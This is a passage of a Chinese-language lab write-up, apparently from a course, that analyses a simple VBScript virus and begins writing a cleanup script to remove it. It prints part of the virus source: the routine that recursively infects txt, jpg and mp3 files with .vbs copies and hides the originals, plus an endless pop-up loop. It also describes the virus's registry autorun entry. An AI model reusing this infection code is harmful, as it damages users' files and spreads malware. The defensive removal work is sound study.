 ```vbscript
	Set fc = f.Files '令fc为文件夹中所有文件
	For Each f1 in fc '遍历folderspec中所有文件
		ext = fso.GetExtensionName(f1.path)	'取文件后缀
		ext = LCase(ext)	'将后缀转换为小写
		If (ext="txt") or (ext="jpg") or (ext="mp3") Then	'此3种文件被感染
				Set m = fso.CreateTextFile(f1.path&".vbs")	'创建以被感染文件名命名的病毒副本
				m.write vbscopy '病毒代码写入被感染文件
				m.close '关闭句柄
				If (f1.attributes = 0 or f1.attributes = 32 or f1.attributes = 2080) Then	'隐藏原文件
f1.attributes = 2
REM 属性值为0是普通文件，32是上次备份后已改变的文件，2为隐藏文件
			End If
		End If
	Next
End Sub


Sub folderlist(folderspec)	'遍历文件夹
	On Error Resume Next
	Dim f,f1,sf
	Set f = fso.GetFolder(folderspec)
	Set sf = f.SubFolders
	For each f1 in sf
		infectfiles(f1.path)	'感染目录中的文件
		folderlist(f1.path)	'递归，继续搜索子目录
	Next
End Sub

Sub runmsg
	On Error Resume Next
	Dim i
	While i = 0    '死循环，一直显示“病毒发作”
   		MsgBox ("病毒发作")
	Wend 
End Sub

```

根据源代码我们可以发现病毒主要有四个功能

1. 备份病毒到System目录下
2. 在注册表中创建自启动项
3. 遍历子文件夹，创建`txt、jpg、mp3`三种类型文件同名的vbs文件，并隐藏旧文件
4. 始终显示“病毒发作”弹窗

### 病毒清除

4. 针对病毒行为，编写清除病毒的svir.vbs文件。从文件、进程、注册表等方面考虑如何清除病毒及病毒对操作系统的影响。

##### 主程序

```vbscript
'On Error Resume Next
Dim fso,dirsystem,file,vbscopy,folder
Set fso = CreateObject("Scripting.FileSystemObject")	'创建文件对象
Set file = fso.OpenTextFile(WScript.ScriptFullname,1)
Set folder = fso.GetFile(WScript.ScriptFullname).ParentFolder
main()

Sub main()
	'开始调用几个功能模块
	regdele()	'删除注册表
	msgbox(folder.path)

	folderlist(folder.path) ' 删除文件夹内的一众病毒
```